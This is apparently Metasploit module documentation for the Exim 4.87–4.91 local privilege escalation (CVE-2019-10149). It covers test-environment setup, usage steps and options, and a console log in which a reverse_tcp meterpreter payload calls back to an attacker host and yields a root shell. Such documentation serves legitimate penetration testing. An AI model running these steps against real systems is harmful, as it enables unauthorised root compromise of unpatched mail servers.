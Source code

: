 ## Vulnerable Application

Exim 4.87 - 4.91 Local Privilege Escalation

This module exploits a flaw found in Exim versions 4.87 to 4.91 (inclusive).
Improper validation of recipient address in deliver_message() function in
/src/deliver.c may lead to command execution with root privileges
(CVE-2019-10149).

Both meterpreter shell and classic shell are supported. The exploit will upload
the specified `payload`, set the suid bit, and execute it to create a new root
session. In order for the new session to be a root one, both `PrependSetuid` and
`PrependSetgid` must be set to true (which is the default configuration for the
exploit), and the `WritableDir` must be mounted without `nosuid`.

# Creating A Testing Environment

You basically just need to have a exim (between 4.87 and 4.91 inclusive) running
and listening on a port (port 25 by default). For my tests, I used a VM with
Ubuntu 18.04 LTS and exim 4.89 (I tested all the versions from 4.87 to 4.91).
The exim source code can be downloaded from the official website (all the old
versions can be found). You can also use this good Docker image which sets up a
container with a vulnerable exim version running
(https://github.com/dhn/exploits/tree/master/CVE-2019-10149). Be careful if you
use the exim package from the official repo of your Linux distribution, even if
the version is between 4.87 and 4.91, it may still be patched against the
vulnerability (it is the case on Ubuntu at least).

Before using the exploit, make sure exim is actually listening on a port (it may
sound stupid, but I struggled a bit when creating a testing environment).
However, you should not have any problem if you use the Docker image linked
above.

## Verification Steps

1. `use exploit/linux/local/exim4_deliver_message_priv_esc`
2. `set SESSION [session]`
3. `set PAYLOAD [payload]`
4. `set LHOST [lhost]`
5. `set LPORT [lport]`
6. `exploit`

## Options

## PAYLOAD

Set this option to choose which type of root session you want to create.

## EXIMPORT

The port that exim is listening to. On most cases it will be port 25 (which is
the default).

## ForceExploit

Force exploit even if the current session is root.

## ExpectTimeout

Timeout for Expect when communicating with exim.

## WritableDir

A directory where we can write files (default is /tmp).

## Scenarios

## Privilege escalation starting with a meterpreter shell

```
meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter >
Background session 1? [y/N]
msf5 exploit(multi/handler) > use exploit/linux/local/exim4_deliver_message_priv_esc
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set session 1
session => 1
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set lhost 192.168.0.50
lhost => 192.168.0.50
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set lport 13371
lport => 13371
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set EXIMPATH /usr/exim/bin/exim
EXIMPATH => /usr/exim/bin/exim
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > check
[*] The target appears to be vulnerable.
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > exploit

[*] Started reverse TCP handler on 192.168.0.50:13371
[*] Payload sent, wait a few seconds...
[*] Sending stage (985320 bytes) to 192.168.0.80
[*] Meterpreter session 2 opened (192.168.0.50:13371 -> 192.168.0.80:45562) at 2019-07-07 23:46:37 +0100
[+] Deleted /tmp/eMhzFtUYGQ
[+] Check session 2, you should have a root shell!

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.0.80
OS           : Ubuntu 18.04 (Linux 4.18.0-25-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
```
